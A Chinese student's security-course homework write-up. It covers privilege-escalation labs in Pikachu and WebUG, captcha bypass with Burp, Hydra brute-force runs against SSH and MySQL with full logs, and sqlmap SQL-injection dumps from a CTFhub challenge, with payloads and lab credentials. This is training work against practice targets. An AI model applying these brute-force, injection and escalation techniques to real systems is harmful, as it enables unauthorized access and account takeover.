作业：

1. #### bluecms 旁注漏洞练习，为什么旁站攻击可以拿下主站？跨库的意思是什么？理解基于功能挖掘漏洞的过程。

* 旁站攻击拿下主站的主要前提是旁站和主站部署在同一台服务器上，那么攻击下旁站，就可以由旁站攻击同一台服务器上的主站。

* 跨库的意思是，利用SQL注入能够跨越当前库，获取所有的数据库中的数据库名，表名，字段名。


2. #### 水平越权 & 垂直越权漏洞实验。

* 水平越权
  * 先用lucy的账号密码登录，查看个人信息，得到url为 http://192.168.216.129:8082/pikachu/vul/overpermission/op1/op1_mem.php?username=lucy&submit=%E7%82%B9%E5%87%BB%E6%9F%A5%E7%9C%8B%E4%B8%AA%E4%BA%BA%E4%BF%A1%E6%81%AF
  * 把url中的username=lucy改为username=kobe后，刷新页面，可以得到完整的kobe信息，不同的用户可以互相访问，这就是水平越权。






* 垂直越权

  * 在safari中用admin/123456登录，在firefox浏览器中使用pikachu//000000用户登录。可以看到admin由添加用户权限，pikachu没有添加用户权限。

  

​		

* 使用admin账户添加用户，得到添加用户的url，http://192.168.216.129:8082/pikachu/vul/overpermission/op2/op2_admin_edit.php

* 低权限的账号pikachu通过访问admin添加用户的接口，能够使用到admin账号添加用户的功能，造成越权。

  

* 回到admin用户页面查看，pikachu成功添加用户123，造成垂直越权。

​		


3. #### 密码修改逻辑漏洞

```shell
# docker pull area39/webug
Using default tag: latest
latest: Pulling from area39/webug
a7344f52cb74: Pull complete
515c9bb51536: Pull complete
e1eabe0537eb: Pull complete
4701f1215c13: Pull complete
47e9dc58a04a: Pull complete
e2f5bef92572: Pull complete
d4ff2baf456b: Pull complete
8bcee2bcac01: Pull complete
bed1605ff912: Pull complete
c76295730308: Pull complete
c9546d0b81a1: Pull complete
9f15afb3efc0: Pull complete
Digest: sha256:6618efa0a7df17f92af86969397ea2098c01848f6dcecafe6cd82f25c8e4ef2f
Status: Downloaded newer image for area39/webug:latest
docker.io/area39/webug:latest

# docker run -d -p 8080:80 -p 33060:3306 area39/webug
b1ff06a0c07d18a250b4550871fb661fab00fb9f6fd82e163b3e55b70502bdbb
```

http://124.70.208.214:8080/control/login.php

```
默认账号：admin/admin 数据库账号：root/toor
```

打开“越权修改密码”靶场：web靶场-》逻辑漏洞-〉越权修改密码-》打开靶场

进入docker中的mysql，查看网站后台管理系统的账号密码为

```shell
# docker ps -a
CONTAINER ID   IMAGE          COMMAND              CREATED          STATUS          PORTS                                                                                NAMES
b1ff06a0c07d   area39/webug   "httpd-foreground"   24 minutes ago   Up 24 minutes   0.0.0.0:8080->80/tcp, :::8080->80/tcp, 0.0.0.0:33060->3306/tcp, :::33060->3306/tcp   pensive_greider
root@hecs-209282:~# docker exec -it b1ff06a0c07d bash

root@b1ff06a0c07d:/# mysql -uroot -p
Enter password:
Welcome to the MySQL monitor.  Commands end with ; or \g.
Your MySQL connection id is 83
Server version: 5.5.35-1ubuntu1 (Ubuntu)

Copyright (c) 2000, 2013, Oracle and/or its affiliates. All rights reserved.

Oracle is a registered trademark of Oracle Corporation and/or its
affiliates. Other names may be trademarks of their respective
owners.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

mysql> show databases;
+--------------------+
| Database           |
+--------------------+
| information_schema |
| mysql              |
| performance_schema |
| webug              |
| webug_sys          |
| webug_width_byte   |
+--------------------+
6 rows in set (0.00 sec)

mysql> use webug;
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed
mysql> show tables;
+-----------------+
| Tables_in_webug |
+-----------------+
| data_crud       |
| env_list        |
| env_path        |
| flag            |
| sqlinjection    |
| user            |
| user_test       |
+-----------------+
7 rows in set (0.00 sec)

mysql> select * from user_test;
+----+----------+----------+
| id | username | password |
+----+----------+----------+
|  1 | admin    | admin    |
|  2 | aaaaa    | asdfsadf |
+----+----------+----------+
2 rows in set (0.00 sec)
```

登录aaaaa/asdfsadf的账户：

 



对aaaaa账户进行修改密码的操作：发现修改密码处未对旧密码进行验证，旧密码处输入任意内容，可

以直接修改密码



```shell
mysql> select * from user_test;
+----+----------+----------+
| id | username | password |
+----+----------+----------+
|  1 | admin    | admin    |
|  2 | aaaaa    | 12345    |
+----+----------+----------+
2 rows in set (0.00 sec)
```

使用burp抓数据包，发现id值可以被篡改，一般来说管理员的id值一般为1或者0

修改id值为1后，放了数据包到server，发现成功修改了admin的密码为12345，通过低权限的账户修改了管理员账户的密码，使用admin/12345 即可成功登录。

 

```shell
mysql> select * from user_test;
+----+----------+----------+
| id | username | password |
+----+----------+----------+
|  1 | admin    | 12345    |
|  2 | aaaaa    | 12345    |
+----+----------+----------+
2 rows in set (0.00 sec)
```


4. #### 暴力破解：使用 hydra 实现对 ftp、ssh、rdp、mysql 的暴力破解

* ssh协议

```shell
┌──(helen㉿kali-arm64)-[~]
└─$ hydra 192.168.216.129 ssh -l minwang -P pwd.txt -t 5 -vV -e nsr -o ssh.log
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2023-11-05 19:21:36
[DATA] max 5 tasks per 1 server, overall 5 tasks, 12 login tries (l:1/p:12), ~3 tries per task
[DATA] attacking ssh://192.168.216.129:22/
[VERBOSE] Resolving addresses ... [VERBOSE] resolving done
[INFO] Testing if password authentication is supported by ssh://minwang@192.168.216.129:22
[INFO] Successful, password authentication is supported by ssh://192.168.216.129:22
[ATTEMPT] target 192.168.216.129 - login "minwang" - pass "minwang" - 1 of 12 [child 0] (0/0)
[ATTEMPT] target 192.168.216.129 - login "minwang" - pass "" - 2 of 12 [child 1] (0/0)
[ATTEMPT] target 192.168.216.129 - login "minwang" - pass "gnawnim" - 3 of 12 [child 2] (0/0)
[ATTEMPT] target 192.168.216.129 - login "minwang" - pass "geektime" - 4 of 12 [child 3] (0/0)
[ATTEMPT] target 192.168.216.129 - login "minwang" - pass "123" - 5 of 12 [child 4] (0/0)
[ATTEMPT] target 192.168.216.129 - login "minwang" - pass "123456" - 6 of 12 [child 1] (0/0)
[ATTEMPT] target 192.168.216.129 - login "minwang" - pass "admin" - 7 of 12 [child 4] (0/0)
[ATTEMPT] target 192.168.216.129 - login "minwang" - pass "password" - 8 of 12 [child 1] (0/0)
[ATTEMPT] target 192.168.216.129 - login "minwang" - pass "calvin" - 9 of 12 [child 0] (0/0)
[ATTEMPT] target 192.168.216.129 - login "minwang" - pass "root" - 10 of 12 [child 3] (0/0)
[ATTEMPT] target 192.168.216.129 - login "minwang" - pass "1987914" - 12 of 12 [child 2] (0/0)
[22][ssh] host: 192.168.216.129   login: minwang   password: 1987914
[STATUS] attack finished for 192.168.216.129 (waiting for children to complete tests)
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2023-11-05 19:21:43
                                                                                                                                                            
┌──(helen㉿kali-arm64)-[~]

```

* mysql



```shell
┌──(helen㉿kali-arm64)-[~]
└─$ hydra 192.168.2.5 mysql -l root -P pwd.txt -o mysql.log -f -vV -e nsr
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2023-11-05 19:40:27
[INFO] Reduced number of tasks to 4 (mysql does not like many parallel connections)
[DATA] max 4 tasks per 1 server, overall 4 tasks, 12 login tries (l:1/p:12), ~3 tries per task
[DATA] attacking mysql://192.168.2.5:3306/
[VERBOSE] Resolving addresses ... [VERBOSE] resolving done
[ATTEMPT] target 192.168.2.5 - login "root" - pass "root" - 1 of 12 [child 0] (0/0)
[ATTEMPT] target 192.168.2.5 - login "root" - pass "" - 2 of 12 [child 1] (0/0)
[ATTEMPT] target 192.168.2.5 - login "root" - pass "toor" - 3 of 12 [child 2] (0/0)
[ATTEMPT] target 192.168.2.5 - login "root" - pass "geektime" - 4 of 12 [child 3] (0/0)
[3306][mysql] host: 192.168.2.5   login: root   password: root
[STATUS] attack finished for 192.168.2.5 (valid pair found)
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2023-11-05 19:40:28
                                                                                       
```


5. #### 验证码安全

- 验证码绕过（on client）+ 验证码绕过（on server）



可以判断出验证码是前端验证的，这样可以禁用js尝试。




使用burp抓包，删掉验证码后，在send，发现仍然成功。绕过了验证码。






验证码绕过（on server) ，使用burp抓包，显示是在后端验证。使用Repeater功能，枚举修改password，send后，可以发现login success，验证码可以重复使用，








把抓的包放过去（Intercept is off），Repeater再send，就会报错“验证码输入错误”




- 验证码绕过（on server）实验中，为什么 burp 拦截开启的状态下，通过 Repeater 进行重放不会刷新验证码，关闭拦截后才会刷新验证码？
  - 客户端发请求到burp，burp发送请求到服务端，使用repeater模块发送请求是在burp和server端之间进行，客户没有参与进来，不能构成一次完整的通信过程，所以验证码没有刷新。
  - burp把包放过去，服务端返回给客户端信息完成了一次完整的通信，先前的验证码失效，此时验证码才会刷新。

开启burp抓包时，刷新验证码，有抓到包就是后端验证码，没有抓到就是前端验证码。

6. #### CTFhub：SQL 注入靶场，分别完成手工注入和 Sqlmap 工具注入的过程

https://www.ctfhub.com/#/skilltree







开启SQL整数注入ctf实验环境

输入框中输入123，使用burp抓包数据记录至burp.txt

```shell
➜ sqlmap (master) ✔ python3 sqlmap.py -r ../learning/security/week11/burp.txt --level 3 --batch -p id --dbs
        ___
       __H__
 ___ ___[,]_____ ___ ___  {1.7.10.1#dev}
|_ -| . [)]     | .'| . |
|___|_  [(]_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 21:25:10 /2023-11-05/

[21:25:10] [INFO] parsing HTTP request from '../learning/security/week11/burp.txt'
[21:25:10] [INFO] testing connection to the target URL
[21:25:10] [INFO] checking if the target is protected by some kind of WAF/IPS
[21:25:10] [INFO] testing if the target URL content is stable
[21:25:11] [INFO] target URL content is stable
[21:25:11] [WARNING] heuristic (basic) test shows that GET parameter 'id' might not be injectable
[21:25:11] [INFO] heuristic (XSS) test shows that GET parameter 'id' might be vulnerable to cross-site scripting (XSS) attacks
[21:25:11] [INFO] testing for SQL injection on GET parameter 'id'
[21:25:11] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause'
[21:25:11] [WARNING] reflective value(s) found and filtering out
[21:25:18] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause (subquery - comment)'
[21:25:22] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause (comment)'
[21:25:25] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause (MySQL comment)'
[21:25:31] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause (Microsoft Access comment)'
[21:25:36] [INFO] testing 'MySQL RLIKE boolean-based blind - WHERE, HAVING, ORDER BY or GROUP BY clause'
[21:25:45] [INFO] testing 'MySQL AND boolean-based blind - WHERE, HAVING, ORDER BY or GROUP BY clause (MAKE_SET)'
[21:25:54] [INFO] testing 'PostgreSQL AND boolean-based blind - WHERE or HAVING clause (CAST)'
[21:26:08] [INFO] testing 'Oracle AND boolean-based blind - WHERE or HAVING clause (CTXSYS.DRITHSX.SN)'
[21:26:17] [INFO] testing 'SQLite AND boolean-based blind - WHERE, HAVING, GROUP BY or HAVING clause (JSON)'
[21:26:26] [INFO] testing 'Boolean-based blind - Parameter replace (original value)'
[21:26:27] [INFO] testing 'PostgreSQL boolean-based blind - Parameter replace'
[21:26:27] [INFO] testing 'Microsoft SQL Server/Sybase boolean-based blind - Parameter replace'
[21:26:27] [INFO] testing 'Oracle boolean-based blind - Parameter replace'
[21:26:28] [INFO] testing 'Informix boolean-based blind - Parameter replace'
[21:26:28] [INFO] testing 'Microsoft Access boolean-based blind - Parameter replace'
[21:26:28] [INFO] testing 'Boolean-based blind - Parameter replace (DUAL)'
[21:26:29] [INFO] testing 'Boolean-based blind - Parameter replace (DUAL - original value)'
[21:26:29] [INFO] testing 'Boolean-based blind - Parameter replace (CASE)'
[21:26:29] [INFO] testing 'Boolean-based blind - Parameter replace (CASE - original value)'
[21:26:29] [INFO] testing 'MySQL >= 5.0 boolean-based blind - ORDER BY, GROUP BY clause'
[21:26:29] [INFO] testing 'MySQL >= 5.0 boolean-based blind - ORDER BY, GROUP BY clause (original value)'
[21:26:29] [INFO] testing 'MySQL < 5.0 boolean-based blind - ORDER BY, GROUP BY clause'
[21:26:29] [INFO] testing 'PostgreSQL boolean-based blind - ORDER BY, GROUP BY clause'
[21:26:30] [INFO] testing 'Microsoft SQL Server/Sybase boolean-based blind - ORDER BY clause'
[21:26:31] [INFO] testing 'Oracle boolean-based blind - ORDER BY, GROUP BY clause'
[21:26:31] [INFO] testing 'HAVING boolean-based blind - WHERE, GROUP BY clause'
[21:26:39] [INFO] testing 'PostgreSQL boolean-based blind - Stacked queries'
[21:26:43] [INFO] testing 'Microsoft SQL Server/Sybase boolean-based blind - Stacked queries (IF)'
[21:26:48] [INFO] testing 'MySQL >= 5.0 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)'
[21:26:52] [INFO] testing 'MySQL >= 5.1 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (EXTRACTVALUE)'
[21:26:56] [INFO] testing 'MySQL >= 5.1 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (UPDATEXML)'
[21:27:00] [INFO] testing 'MySQL >= 4.1 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)'
[21:27:03] [INFO] testing 'PostgreSQL AND error-based - WHERE or HAVING clause'
[21:27:07] [INFO] testing 'Microsoft SQL Server/Sybase AND error-based - WHERE or HAVING clause (IN)'
[21:27:11] [INFO] testing 'Microsoft SQL Server/Sybase AND error-based - WHERE or HAVING clause (CONVERT)'
[21:27:15] [INFO] testing 'Microsoft SQL Server/Sybase AND error-based - WHERE or HAVING clause (CONCAT)'
[21:27:19] [INFO] testing 'Oracle AND error-based - WHERE or HAVING clause (XMLType)'
[21:27:22] [INFO] testing 'Oracle AND error-based - WHERE or HAVING clause (UTL_INADDR.GET_HOST_ADDRESS)'
[21:27:26] [INFO] testing 'Oracle AND error-based - WHERE or HAVING clause (CTXSYS.DRITHSX.SN)'
[21:27:29] [INFO] testing 'Firebird AND error-based - WHERE or HAVING clause'
[21:27:31] [INFO] testing 'MonetDB AND error-based - WHERE or HAVING clause'
[21:27:34] [INFO] testing 'Vertica AND error-based - WHERE or HAVING clause'
[21:27:38] [INFO] testing 'IBM DB2 AND error-based - WHERE or HAVING clause'
[21:27:42] [INFO] testing 'ClickHouse AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause'
[21:27:46] [INFO] testing 'MySQL >= 5.1 error-based - PROCEDURE ANALYSE (EXTRACTVALUE)'
[21:27:50] [INFO] testing 'MySQL >= 5.0 error-based - Parameter replace (FLOOR)'
[21:27:50] [INFO] testing 'MySQL >= 5.1 error-based - Parameter replace (EXTRACTVALUE)'
[21:27:50] [INFO] testing 'PostgreSQL error-based - Parameter replace'
[21:27:50] [INFO] testing 'Microsoft SQL Server/Sybase error-based - Parameter replace'
[21:27:50] [INFO] testing 'Oracle error-based - Parameter replace'
[21:27:50] [INFO] testing 'MySQL >= 5.1 error-based - ORDER BY, GROUP BY clause (EXTRACTVALUE)'
[21:27:51] [INFO] testing 'MySQL >= 4.1 error-based - ORDER BY, GROUP BY clause (FLOOR)'
[21:27:51] [INFO] testing 'PostgreSQL error-based - ORDER BY, GROUP BY clause'
[21:27:51] [INFO] testing 'Microsoft SQL Server/Sybase error-based - Stacking (EXEC)'
[21:27:53] [INFO] testing 'Generic inline queries'
[21:27:53] [INFO] testing 'MySQL inline queries'
[21:27:53] [INFO] testing 'PostgreSQL inline queries'
[21:27:54] [INFO] testing 'Microsoft SQL Server/Sybase inline queries'
[21:27:54] [INFO] testing 'Oracle inline queries'
[21:27:54] [INFO] testing 'SQLite inline queries'
[21:27:54] [INFO] testing 'Firebird inline queries'
[21:27:55] [INFO] testing 'ClickHouse inline queries'
[21:27:55] [INFO] testing 'MySQL >= 5.0.12 stacked queries (comment)'
[21:27:57] [INFO] testing 'MySQL >= 5.0.12 stacked queries'
[21:28:01] [INFO] testing 'MySQL >= 5.0.12 stacked queries (query SLEEP - comment)'
[21:28:03] [INFO] testing 'PostgreSQL > 8.1 stacked queries (comment)'
[21:28:05] [INFO] testing 'PostgreSQL < 8.2 stacked queries (Glibc - comment)'
[21:28:08] [INFO] testing 'Microsoft SQL Server/Sybase stacked queries (comment)'
[21:28:09] [INFO] testing 'Microsoft SQL Server/Sybase stacked queries (DECLARE - comment)'
[21:28:12] [INFO] testing 'Oracle stacked queries (DBMS_PIPE.RECEIVE_MESSAGE - comment)'
[21:28:14] [INFO] testing 'MySQL >= 5.0.12 AND time-based blind (query SLEEP)'
[21:28:25] [INFO] GET parameter 'id' appears to be 'MySQL >= 5.0.12 AND time-based blind (query SLEEP)' injectable
it looks like the back-end DBMS is 'MySQL'. Do you want to skip test payloads specific for other DBMSes? [Y/n] Y
for the remaining tests, do you want to include all tests for 'MySQL' extending provided level (3) and risk (1) values? [Y/n] Y
[21:28:25] [INFO] testing 'Generic UNION query (NULL) - 1 to 20 columns'
[21:28:25] [INFO] automatically extending ranges for UNION query injection technique tests as there is at least one other (potential) technique found
[21:28:54] [INFO] target URL appears to be UNION injectable with 2 columns
[21:28:54] [INFO] GET parameter 'id' is 'Generic UNION query (NULL) - 1 to 20 columns' injectable
GET parameter 'id' is vulnerable. Do you want to keep testing the others (if any)? [y/N] N
sqlmap identified the following injection point(s) with a total of 1024 HTTP(s) requests:
---
Parameter: id (GET)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: id=123 AND (SELECT 7344 FROM (SELECT(SLEEP(5)))ZPTT)

    Type: UNION query
    Title: Generic UNION query (NULL) - 2 columns
    Payload: id=123 UNION ALL SELECT NULL,CONCAT(0x7162707671,0x4248474e617251684c6b524a4877736e47666d5a664455424d466d727848726871536762416e654b,0x7171707171)-- -
---
[21:28:55] [INFO] the back-end DBMS is MySQL
web application technology: OpenResty 1.21.4.2, PHP 7.3.14
back-end DBMS: MySQL >= 5.0.12 (MariaDB fork)
[21:28:55] [INFO] fetching database names
[21:28:55] [INFO] retrieved: 'information_schema'
[21:28:55] [INFO] retrieved: 'mysql'
[21:28:55] [INFO] retrieved: 'performance_schema'
[21:28:56] [INFO] retrieved: 'sqli'
available databases [4]:
[*] information_schema
[*] mysql
[*] performance_schema
[*] sqli

[21:28:56] [INFO] fetched data logged to text files under '/Users/minwang/.local/share/sqlmap/output/challenge-6b928c7b5c9e6eb1.sandbox.ctfhub.com'

[*] ending @ 21:28:56 /2023-11-05/


➜ sqlmap (master) ✔ python3 sqlmap.py -r ../learning/security/week11/burp.txt --level 3 --batch -p id -D sqli --tables
        ___
       __H__
 ___ ___[']_____ ___ ___  {1.7.10.1#dev}
|_ -| . [(]     | .'| . |
|___|_  ["]_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 21:33:53 /2023-11-05/

[21:33:53] [INFO] parsing HTTP request from '../learning/security/week11/burp.txt'
[21:33:53] [INFO] resuming back-end DBMS 'mysql'
[21:33:53] [INFO] testing connection to the target URL
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: id (GET)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: id=123 AND (SELECT 7344 FROM (SELECT(SLEEP(5)))ZPTT)

    Type: UNION query
    Title: Generic UNION query (NULL) - 2 columns
    Payload: id=123 UNION ALL SELECT NULL,CONCAT(0x7162707671,0x4248474e617251684c6b524a4877736e47666d5a664455424d466d727848726871536762416e654b,0x7171707171)-- -
---
[21:33:53] [INFO] the back-end DBMS is MySQL
web application technology: PHP 7.3.14, OpenResty 1.21.4.2
back-end DBMS: MySQL >= 5.0.12 (MariaDB fork)
[21:33:53] [INFO] fetching tables for database: 'sqli'
[21:33:54] [WARNING] reflective value(s) found and filtering out
[21:33:54] [INFO] retrieved: 'flag'
[21:33:54] [INFO] retrieved: 'news'
Database: sqli
[2 tables]
+------+
| flag |
| news |
+------+

[21:33:54] [INFO] fetched data logged to text files under '/Users/minwang/.local/share/sqlmap/output/challenge-6b928c7b5c9e6eb1.sandbox.ctfhub.com'

[*] ending @ 21:33:54 /2023-11-05/


➜ sqlmap (master) ✔ python3 sqlmap.py -r ../learning/security/week11/burp.txt --level 3 --batch -p id -D sqli -T flag --c
olumns
        ___
       __H__
 ___ ___[.]_____ ___ ___  {1.7.10.1#dev}
|_ -| . ["]     | .'| . |
|___|_  [)]_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 21:34:45 /2023-11-05/

[21:34:45] [INFO] parsing HTTP request from '../learning/security/week11/burp.txt'
[21:34:45] [INFO] resuming back-end DBMS 'mysql'
[21:34:45] [INFO] testing connection to the target URL
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: id (GET)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: id=123 AND (SELECT 7344 FROM (SELECT(SLEEP(5)))ZPTT)

    Type: UNION query
    Title: Generic UNION query (NULL) - 2 columns
    Payload: id=123 UNION ALL SELECT NULL,CONCAT(0x7162707671,0x4248474e617251684c6b524a4877736e47666d5a664455424d466d727848726871536762416e654b,0x7171707171)-- -
---
[21:34:45] [INFO] the back-end DBMS is MySQL
web application technology: PHP 7.3.14, OpenResty 1.21.4.2
back-end DBMS: MySQL >= 5.0.12 (MariaDB fork)
[21:34:45] [INFO] fetching columns for table 'flag' in database 'sqli'
[21:34:45] [WARNING] reflective value(s) found and filtering out
Database: sqli
Table: flag
[1 column]
+--------+--------------+
| Column | Type         |
+--------+--------------+
| flag   | varchar(100) |
+--------+--------------+

[21:34:46] [INFO] fetched data logged to text files under '/Users/minwang/.local/share/sqlmap/output/challenge-6b928c7b5c9e6eb1.sandbox.ctfhub.com'

[*] ending @ 21:34:46 /2023-11-05/

➜ sqlmap (master) ✔ python3 sqlmap.py -r ../learning/security/week11/burp.txt --level 3 --batch -p id -D sqli -T flag -C
flag --dump
        ___
       __H__
 ___ ___["]_____ ___ ___  {1.7.10.1#dev}
|_ -| . [(]     | .'| . |
|___|_  [.]_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 21:35:56 /2023-11-05/

[21:35:56] [INFO] parsing HTTP request from '../learning/security/week11/burp.txt'
[21:35:56] [INFO] resuming back-end DBMS 'mysql'
[21:35:56] [INFO] testing connection to the target URL
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: id (GET)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: id=123 AND (SELECT 7344 FROM (SELECT(SLEEP(5)))ZPTT)

    Type: UNION query
    Title: Generic UNION query (NULL) - 2 columns
    Payload: id=123 UNION ALL SELECT NULL,CONCAT(0x7162707671,0x4248474e617251684c6b524a4877736e47666d5a664455424d466d727848726871536762416e654b,0x7171707171)-- -
---
[21:35:56] [INFO] the back-end DBMS is MySQL
web application technology: PHP 7.3.14, OpenResty 1.21.4.2
back-end DBMS: MySQL >= 5.0.12 (MariaDB fork)
[21:35:56] [INFO] fetching entries of column(s) 'flag' for table 'flag' in database 'sqli'
[21:35:56] [WARNING] reflective value(s) found and filtering out
Database: sqli
Table: flag
[1 entry]
+----------------------------------+
| flag                             |
+----------------------------------+
| ctfhub{8cd021b158d68c6fa15aeaac} |
+----------------------------------+

[21:35:57] [INFO] table 'sqli.flag' dumped to CSV file '/Users/minwang/.local/share/sqlmap/output/challenge-6b928c7b5c9e6eb1.sandbox.ctfhub.com/dump/sqli/flag.csv'
[21:35:57] [INFO] fetched data logged to text files under '/Users/minwang/.local/share/sqlmap/output/challenge-6b928c7b5c9e6eb1.sandbox.ctfhub.com'

[*] ending @ 21:35:57 /2023-11-05/
```

